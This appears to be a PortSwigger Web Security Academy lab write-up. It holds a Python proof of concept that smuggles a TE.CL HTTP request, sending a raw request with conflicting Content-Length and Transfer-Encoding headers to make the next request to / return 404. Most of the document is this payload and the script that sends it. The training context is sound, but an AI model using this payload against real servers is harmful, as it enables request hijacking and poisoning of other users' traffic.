

# Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## Description
```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup
import socket
import ssl

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = requests.get(burp0_url, headers=burp0_headers)
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")

attack_payload ="""
POST / HTTP/1.1
Host: ❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

a5
POST /throws404 HTTP/1.1
Host: ❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

"""
print("## attack payload ##")
print(attack_payload)

def send_request(host, port, request):
    context = ssl.create_default_context()
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    with socket.create_connection((host, port)) as sock:
        with context.wrap_socket(sock, server_hostname=host) as secure_sock:
            secure_sock.sendall(request.encode())
            response = secure_sock.recv(4096)
            return response

host = "❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net"
port = 443

request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 4\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "a5\r\n"
    "POST /throws404 HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 15\r\n"
    "\r\n"
    "x=1\r\n"
    "0\r\n"
    "\r\n"
)

response = send_request(host, port, request)
status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
status_code = status_line.split()[1]
print(f"response status code: {status_code}")


burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = requests.get(burp0_url, headers=burp0_headers)
print(f"response status code: {response.status_code}")

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = requests.get(burp0_url, headers=burp0_headers)

soup = BeautifulSoup(response.text, 'html.parser')
status_p = soup.select_one('div.widgetcontainer-lab-status > p')
status_text = status_p.text if status_p else "Status not found"
print(f"Lab : {status_text}")
```

## Result
